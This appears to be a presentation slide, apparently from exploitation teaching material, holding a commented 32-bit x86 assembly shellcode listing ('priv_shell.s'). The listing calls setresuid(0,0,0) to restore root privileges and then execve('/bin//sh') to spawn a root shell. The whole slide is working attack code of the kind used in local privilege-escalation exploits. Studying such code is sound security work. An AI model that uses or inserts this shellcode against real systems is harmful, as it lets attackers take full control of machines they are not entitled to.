

# Shellcode to regain privileges
priv_shell.s

BITS 32

; setresuid(uid_t ruid, uid_t euid, uid_t suid);
  xor eax, eax      ; Zero out eax.
  xor ebx, ebx      ; Zero out ebx.
  xor ecx, ecx      ; Zero out ecx.
  xor edx, edx      ; Zero out edx.
  mov al,  0xa4     ; 164 (0xa4) for syscall #164
  int 0x80          ; setresuid(0, 0, 0)  Restore all root privs.

; execve(const char *filename, char *const argv [], char *const envp[])
  xor eax, eax      ; Make sure eax is zeroed again.
  mov al, 11        ; syscall #11
  push ecx          ; push some nulls for string termination.
  push 0x68732f2f   ; push "//sh" to the stack.
  push 0x6e69622f   ; push "/bin" to the stack.
  mov ebx, esp      ; Put the address of "/bin//sh" into ebx via esp.
  push ecx          ; push 32-bit null terminator to stack.
  mov edx, esp      ; This is an empty array for envp.
  push ebx          ; push string addr to stack above null terminator.
  mov ecx, esp      ; This is the argv array with string ptr.
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])